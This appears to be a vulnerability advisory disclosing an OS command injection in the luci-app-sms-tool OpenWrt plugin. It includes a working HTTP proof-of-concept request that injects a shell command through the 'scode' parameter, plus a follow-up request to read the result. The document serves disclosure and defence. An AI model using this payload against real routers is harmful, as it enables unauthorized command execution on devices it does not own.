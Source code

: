 ## luci-app-sms-tool OpenWrt plugin has a command injection vulnerability

Affected product:  *luci-app-sms-tool* <= 1.9-6

### Product Information

project: https://github.com/4IceG/luci-app-sms-tool

Location of the vulnerability: https://github.com/4IceG/luci-app-sms-tool/blob/master/luci-app-sms-tool/luasrc/controller/modem/sms.lua

### Vulnerability Description

When deal with `run_sms` request,`scode` parameter is vulnerable to OS command injection.

![8](img/8.png)

payload:

```http
GET /cgi-bin/luci/admin/modem/sms/run_sms?scode=12345678901234567890';%20ls%20%2F%3E%2Fwww%2Fsmstool123.txt%20#' HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=eb2cb32a138221c5bf88eb40ad64e37b
```

inject the command "`ls />/www/smstool123.txt`"

![9](img/9.png)

check the result

```http
GET /smstool123.txt HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=484d927d43dc6f3b20ca54148260c48d
```

![10](img/10.png)
